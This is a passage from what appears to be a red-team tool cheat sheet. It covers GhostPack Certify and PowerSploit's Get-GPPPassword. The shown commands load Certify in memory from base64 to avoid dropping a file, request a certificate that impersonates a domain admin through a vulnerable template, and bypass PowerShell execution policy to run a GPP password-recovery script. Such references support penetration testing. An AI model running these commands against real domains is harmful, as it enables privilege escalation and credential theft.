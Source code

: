 ```bash
[Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\Temp\Certify.exe")) | Out-File -Encoding ASCII C:\Temp\Certify.txt
```

Certify can then be loaded in a PowerShell script with the following (where "aa..." is replaced with the base64-encoded Certify assembly string):

```
$CertifyAssembly = [System.Reflection.Assembly]::Load([Convert]::FromBase64String("aa..."))
```

The Main() method and any arguments can then be invoked as follows:

```
[Certify.Program]::Main("find /vulnerable".Split())
```

Full compile instructions can be found [here](https://github.com/GhostPack/Certify#compile-instructions).

**Usage:**

```bash
# See if there are any vulnerable templates
Certify.exe find /vulnerable

# Request a new certificate for a template/CA, specifying a DA localadmin as the alternate principal
Certify.exe request /ca:dc.theshire.local\theshire-DC-CA /template:VulnTemplate /altname:localadmin
```

Full example walkthrough can be found [here](https://github.com/GhostPack/Certify#example-walkthrough).

![image](https://user-images.githubusercontent.com/100603074/210088651-28899ba5-cbbd-4b03-8000-068fd401476d.png)

### [🔙](#tool-list)[Get-GPPPassword](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1)

Get-GPPPassword is a PowerShell script part of the PowerSploit toolkit, it is designed to retrieve passwords for local accounts that are created and managed using Group Policy Preferences (GPP).

Get-GPPPassword works by searching the SYSVOL folder on the domain controller for any GPP files that contain password information. Once it finds these files, it decrypts the password information and displays it to the user.

**Install:**

Follow the PowerSploit [installation instructions](https://github.com/A-poc/RedTeam-Tools#powersploit) from this tool sheet.

```bash
powershell.exe -ep bypass
Import-Module PowerSploit
```

**Usage:**
